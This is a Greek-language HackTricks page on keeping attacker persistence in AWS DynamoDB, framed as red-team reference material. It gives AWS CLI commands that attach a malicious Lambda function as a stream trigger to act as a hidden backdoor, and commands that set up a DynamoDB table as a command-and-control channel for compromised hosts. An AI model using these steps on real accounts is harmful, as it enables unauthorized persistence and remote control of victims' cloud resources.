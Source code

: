 # AWS - Διατήρηση DynamoDB

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### DynamoDB

Για περισσότερες πληροφορίες, αποκτήστε πρόσβαση:

{% content-ref url="../aws-services/aws-databases/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-databases/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Εκτελώντας Παρασκηνιακή Προσβολή με Συναγερμούς DynamoDB και Lambda

Χρησιμοποιώντας τους συναγερμούς DynamoDB, ένας επιτιθέμενος μπορεί να δημιουργήσει έναν **κρυφό πίσω πόρτα** συσχετίζοντας μια κακόβουλη συνάρτηση Lambda με έναν πίνακα. Η συνάρτηση Lambda μπορεί να ενεργοποιηθεί όταν προστίθεται, τροποποιείται ή διαγράφεται ένα στοιχείο, επιτρέποντας στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα μέσα στον λογαριασμό AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Για να διατηρήσει την επιμονή, ο επιτιθέμενος μπορεί να δημιουργήσει ή να τροποποιήσει αντικείμενα στον πίνακα DynamoDB, ο οποίος θα ενεργοποιήσει την κακόβουλη συνάρτηση Lambda. Αυτό επιτρέπει στον επιτιθέμενο να εκτελέσει κώδικα εντός του λογαριασμού AWS χωρίς άμεση αλληλεπίδραση με τη συνάρτηση Lambda.

### DynamoDB ως κανάλι C2

Ένας επιτιθέμενος μπορεί να χρησιμοποιήσει έναν πίνακα DynamoDB ως ένα **κανάλι εντολών και ελέγχου (C2)** δημιουργώντας αντικείμενα που περιέχουν εντολές και χρησιμοποιώντας παραβιασμένες περιπτώσεις ή συναρτήσεις Lambda για να ανακτήσει και να εκτελέσει αυτές τις εντολές.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Οι παραβιασμένες περιπτώσεις ή οι συναρτήσεις Lambda μπορούν να ελέγχουν περιοδικά τον πίνακα C2 για νέες εντολές, να τις εκτελέσουν και προαιρετικά να αναφέρουν τα αποτελέσματα πίσω στον πίνακα. Αυτό επιτρέπει στον επιτιθέμενο να διατηρεί την μόνιμη παρουσία και έλεγχο πάνω στους παραβιασμένους πόρους. 

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
